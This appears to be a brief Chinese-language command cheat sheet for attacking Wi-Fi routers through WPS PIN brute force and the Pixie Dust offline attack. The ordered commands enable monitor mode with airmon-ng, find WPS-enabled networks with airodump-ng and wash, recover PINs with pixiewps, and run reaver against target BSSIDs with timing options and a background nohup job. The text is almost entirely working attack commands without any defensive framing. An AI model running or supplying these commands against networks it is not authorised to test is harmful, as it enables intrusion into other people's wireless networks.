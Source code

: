 ##aircrack-ng reaver pin攻击

####激活无线网卡
     airmon-ng start wlan0 # 此时网卡名变为wlan0mon
     airmon-ng check kill # 如果报错
     airodump-ng wlan0mon --wps # 显示有开启wps wifi
####列出监听到的wifi
    wash -i wlan0mon -C
####获得wps pin
    pixiewps -e PKE -r PKR -s eHash1 -z eHash2 -a AuthKey -n enonce -m rnonce -f -v 3
####pin
    reaver -i wlan0mon -b 00:8e:f2:4e:3a:32 -vv
    reaver -i mon0  -b 00:01:02:03:04:05 -vv -S -N -L -d 60 -r 3:15 -T .5 -x 360
    # --pin=00000000 -p 从哪里开始pin
    reaver -i {monitor interface} -b {BSSID of router} -c {router channel} -vvv -K 1 -f # 快速
####挂机
    nohup sudo reaver -i mon0 -b 00:00:00:00:00:00 -a -S -vv -d2 -t 5 -c 11 -o fbi &
